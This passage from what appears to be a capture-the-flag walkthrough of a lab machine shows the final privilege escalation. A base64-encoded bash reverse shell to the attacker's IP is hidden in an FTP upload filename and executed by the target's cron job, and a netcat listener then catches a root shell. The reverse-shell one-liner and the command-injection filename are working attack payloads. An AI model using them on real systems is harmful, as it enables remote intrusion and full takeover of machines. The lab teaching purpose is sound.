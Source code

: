 

When the cron runs, I get the request:



    10.10.10.249 - - [07/Jul/2021 16:31:04] "GET / HTTP/1.1" 200 -



And then the shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49596
    bash: cannot set terminal process group (30460): Inappropriate ioctl for device
    bash: no job control in this shell
    root@pikaboo:/srv/ftp/types#



Alternatively, I could just base64 encode the command I want to run:



    oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==



I'll use that to create the filename:



    ftp> put test.txt "|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==|base64 -d|bash; a.csv"
    local: test.txt remote: |echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==|base64 -d|bash; a.csv
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.



It also returns a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.249] 49602
    bash: cannot set terminal process group (2772): Inappropriate ioctl for device
    bash: no job control in this shell
    root@pikaboo:/srv/ftp/types# 



Either way, I can grab `root.txt`:



    root@pikaboo:~# cat root.txt
    3a9a1e35************************








